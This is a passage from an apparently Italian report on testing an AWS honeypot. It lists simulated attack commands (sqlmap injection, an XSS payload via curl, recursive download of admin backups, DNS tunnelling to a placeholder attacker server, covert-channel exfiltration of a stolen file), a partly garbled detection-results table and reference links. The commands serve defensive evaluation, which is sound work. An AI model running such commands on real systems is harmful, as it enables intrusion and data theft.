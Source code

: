 sqlmap -u "http://<honeypot-ip>/api/v1/payments?id=1" --batch --dbs

# Test di XSS su form esposti

curl -X POST "http://<honeypot-ip>/contact" -d "name=<script>alert(1)</script>\&email=test@example.com\&message=test"
\end{lstlisting}

#### 6.2.4. Fase 4: Tentativo di Esfiltrazione Dati

\begin{lstlisting}[language=bash, caption=Simulazione di esfiltrazione dati]

# Download di dati dal server compromesso simulato

wget -r --no-parent http://<honeypot-ip>/admin/backup/

# Tentativo di tunneling DNS per esfiltrazione dati

iodine <attacker-dns-server> <honeypot-ip>

# Utilizzo di canali covert per comunicazione C2

python covert_channel.py --mode exfil --target <honeypot-ip> --port 80 --file stolen_data.txt
\end{lstlisting}

### 6.3. Risultati Ottenuti

L'esperimento ha fornito dati significativi sull'efficacia dell'honeypot implementato:

#### 6.3.1. Rilevamento degli Attacchi

[htbp]

| **Tipo di Attacco** | amp; **Rilevato** | amp; **Tempo di Rilevamento** | amp; **Qualità dei Log** |  |
| :--- | :---: | :---: | :---: | :---: |
| Scansione delle porte | amp; Sì | amp; | lt; 1 minuto | amp; Alta |
| Enumerazione web | amp; Sì | amp; 2 minuti | amp; Media |  |
| Brute force SSH | amp; Sì | amp; | lt; 30 secondi | amp; Alta |
| Brute force web | amp; Sì | amp; 1 minuto | amp; Alta |  |
| SQLi | amp; Sì | amp; 3 minuti | amp; Alta |  |
| XSS | amp; Parziale | amp; 5 minuti | amp; Media |  |
| Esfiltrazione dati | amp; Sì | amp; 2 minuti | amp; Alta |  |
| Tunneling DNS | amp; No | amp; N/A | amp; N/A |  |

Table 2: Risultati del rilevamento degli attacchi


[^1]: https://www.semanticscholar.org/paper/0a1b33353e7a9658d8758a34583e2ae661c7f3aa
[^2]: https://utkarsh89.hashnode.dev/how-i-deployed-a-cowrie-honeypot-on-aws-ec2-instance-to-catch-cyber-intruders
[^3]: https://www.reddit.com/r/aws/comments/a8pyvl/monthly_cost_of_ec2_t2micro_email_quotes_for_a/
[^4]: https://aws.amazon.com/it/ec2/instance-types/t2/
[^5]: https://aws.amazon.com/it/ebs/pricing/
[^6]: https://aws.amazon.com/it/about-aws/whats-new/2018/01/cloudwatch-introduces-tiered-pricing-with-up-to-90-percent-discount-for-vpc-flow-logs-and-other-vended-logs/
[^7]: https://aws.amazon.com/it/ec2/pricing/on-demand/
[^8]: https://www.semanticscholar.org/paper/7ac9a2b86eb10533f206d2c76724ec810837a83e
[^9]: https://www.semanticscholar.org/paper/0e8478f80a2296bb4e336210895b42f8ac9a7341
[^10]: https://www.semanticscholar.org/paper/a068e5aa948b36352374d020fb0c767336050297
[^11]: https://www.semanticscholar.org/paper/55cc560b8c59f77b1b627ed0898011bc9b5ad40e
[^12]: https://www.semanticscholar.org/paper/34400aca812854c2ca07df7df80be88a49414af9
[^13]: https://www.semanticscholar.org/paper/366db979de108aadf278467a6c16f5054c44415a
[^14]: https://www.semanticscholar.org/paper/6d5199a0044352fc8e090e4cad23e329642187c0
[^15]: https://nordvpn.com/it/blog/honeypot-cose/
[^16]: https://www.proofpoint.com/it/threat-reference/honeypot
[^17]: https://universeit.blog/honeypot/
[^18]: https://www.insic.it/senza-categoria/cose-un-honeypot-come-funziona-e-quali-sono-le-tipologie/
[^19]: https://vitolavecchia.altervista.org/definizione-di-honeypot-informatica/
[^20]: https://www.fortinet.com/it/resources/cyberglossary/what-is-honeypot
[^21]: https://www.semanticscholar.org/paper/9aa371a687ab5ecf53f56f25e51aa3bdbf4ee19d
[^22]: https://www.semanticscholar.org/paper/19f2a6583f8bd61564452aaced071cfaf7db6cc2
[^23]: https://www.avg.com/it/signal/what-is-a-honeypot
[^24]: https://www.redhotcyber.com/post/la-trappola-virtuale-come-gli-honeypot-migliorano-la-sicurezza-della-tua-rete/
[^25]: https://www.semanticscholar.org/paper/b90f2982b4482d0db17d3c3ff6148f9c0058919c
[^26]: https://www.semanticscholar.org/paper/083e0943c2f75eba5d2c91b3af47b017f5f3d138
[^27]: https://aws.amazon.com/marketplace/pp/prodview-bo6artzxypyv6
[^28]: https://docs.rapid7.com/insightidr/aws-honeypots
[^29]: https://instances.vantage.sh/aws/ec2/t2.micro
[^30]: https://techcommunity.microsoft.com/blog/microsoftsentinelblog/cowrie-honeypot-and-its-integration-with-microsoft-sentinel-/4258349
[^31]: https://www.linkedin.com/posts/dakshanapeiris_cybersecurity-aws-honeypot-activity-7254920168340901888-Crjv
[^32]: https://blog.devgenius.io/creating-a-research-honeypot-on-aws-b0ded134729a
[^33]: https://costcalc.cloudoptimo.com/aws-pricing-calculator/ec2/t2.micro
[^34]: https://github.com/cowrie/cowrie
[^35]: https://bohansec.com/2023/11/28/Deploy-T-Pot-Honeypot-To-AWS/
[^36]: https://cloudprice.net/aws/ec2/instances/t2.micro
[^37]: https://docs.cowrie.org/en/latest/PROXY.html
[^38]: https://docs.aws.amazon.com/solutions/latest/security-automations-for-aws-waf/embed-the-honeypot-link-in-your-web-application-optional.html
[^39]: https://repost.aws/it/questions/QUHPszvKGFTR6iGQMD-5e8Vg/ec2-instances-pricing
[^40]: https://aws.amazon.com/it/ebs/volume-types/
[^41]: https://www.cloudzero.com/blog/reduce-data-transfer-costs/
[^42]: https://aws.amazon.com/it/cloudwatch/pricing/
[^43]: https://instances.vantage.sh
[^44]: https://supporthost.com/it/amazon-aws-prezzi/
[^45]: https://www.economize.cloud/blog/aws-data-transfer-costs/
[^46]: https://docs.aws.amazon.com/it_it/AmazonCloudWatch/latest/logs/WhatIsCloudWatchLogs.html
[^47]: https://aws.amazon.com/it/ec2/instance-types/
[^48]: https://repost.aws/it/knowledge-center/ebs-volume-charges
[^49]: https://docs.aws.amazon.com/it_it/cur/latest/userguide/cur-data-transfers-charges.html
[^50]: https://docs.aws.amazon.com/AmazonCloudWatch/latest/logs/LogsBillingDetails.html
[^51]: https://www.semanticscholar.org/paper/9bbd1cd25f89f36eab1929f42157fa929fcd6ad6
[^52]: https://www.semanticscholar.org/paper/d5280b161c0e823eb7a0b5ec03f41ddc37fcdc19
[^53]: https://calculator.aws
[^54]: https://aws.amazon.com/it/aws-transfer-family/pricing/
[^55]: https://www.hackmeeting.org/hackit13/media/slides/honeypots.pdf
[^56]: https://www.onoratoinformatica.it/network-security/honeypot-in-informatica-conosciamo-da-vicino-il-caso/
[^57]: https://arxiv.org/abs/2405.08175
[^58]: https://www.semanticscholar.org/paper/56664dfbd49d4ad04ecace70856375b8836997d0
[^59]: https://www.semanticscholar.org/paper/e3408cafbb19abeff12c910f7abc50064cea1d47
[^60]: https://www.semanticscholar.org/paper/e0991a22021879b66a5742562f0d8ebe174d95e2
[^61]: https://www.semanticscholar.org/paper/44a1b04fcf7ac93b02d87d8c8950f90f3461ddd4
[^62]: https://www.semanticscholar.org/paper/fce8cbdfda2558f4b3e07943fd21da38e9885eda
[^63]: https://www.semanticscholar.org/paper/85b0770c3953cdebe31a4122cd19e9a3d13c93ba
[^64]: https://www.semanticscholar.org/paper/6ba7a1a890d06546b6ee52c8e5bf1267da2b314b
[^65]: https://github.com/konstruktoid/ansible-cowrie-rootless
[^66]: https://github.com/josehelps/splunk_cowrie
[^67]: https://dev.to/enmareynoso/deploying-a-cowrie-ssh-honeypot-on-a-home-server-7pi
[^68]: https://blog.infosanity.co.uk/?p=1397
[^69]: https://salientengineering.com/setups-guides/how-to-deploy-and-setup-honeydrop-honeypot-in-aws
[^70]: https://enlear.academy/protect-your-linux-server-from-attackers-using-cowrie-ssh-honeypot-know-your-enemy-14f85fe0fc34
[^71]: https://www.semanticscholar.org/paper/63430ffba793891cfce0d37fb22a4e69ff490516
[^72]: https://www.semanticscholar.org/paper/3cbb518a1193f039cf340607cf5e1b90ccd99469
[^73]: https://www.semanticscholar.org/paper/8a53c7b680ef71aa317abcffe62c6d69045e8c5b
[^74]: https://aws.amazon.com/it/ec2/pricing/on-demand/
[^75]: https://www.reddit.com/r/aws/comments/a8pyvl/monthly_cost_of_ec2_t2micro_email_quotes_for_a/?tl=it
[^76]: https://aws.amazon.com/it/datasync/pricing/
[^77]: https://www.semanticscholar.org/paper/120b4e16af1039b261a82e45de477ca494dd74cc
[^78]: https://www.semanticscholar.org/paper/0b8a7900a7e78cf371d90e147fe0b7d904ffb6c5
[^79]: https://www.semanticscholar.org/paper/fc6d1d71c5641464ab404e0c5ee9f132eea4e57f
[^80]: https://www.semanticscholar.org/paper/ae219c00dc21047ba9b1f5a04c1cf05303c36b20
[^81]: https://www.semanticscholar.org/paper/c271b756cc049378da311cf0bded8ed478d28cd9
[^82]: https://www.semanticscholar.org/paper/46eb7a6a97a3facf52ef2467cbb3c36d4f794e39
[^83]: https://www.semanticscholar.org/paper/099c06fbdc7e647792995a7a0a2d863e0bb1de6f
[^84]: https://www.semanticscholar.org/paper/327f28c409695fd7b844e39d5886acf080009595
[^85]: https://aws.amazon.com/blogs/architecture/overview-of-data-transfer-costs-for-common-architectures/
[^86]: https://repost.aws/it/knowledge-center/s3-data-transfer-costs
[^87]: https://bluexp.netapp.com/blog/aws-cvo-blg-aws-data-transfer-costs-solving-hidden-network-transfer-costs
[^88]: https://www.cloudbolt.io/guide-to-aws-cost-optimization/aws-data-transfer-pricing/
[^89]: https://aws.amazon.com/it/s3/pricing/
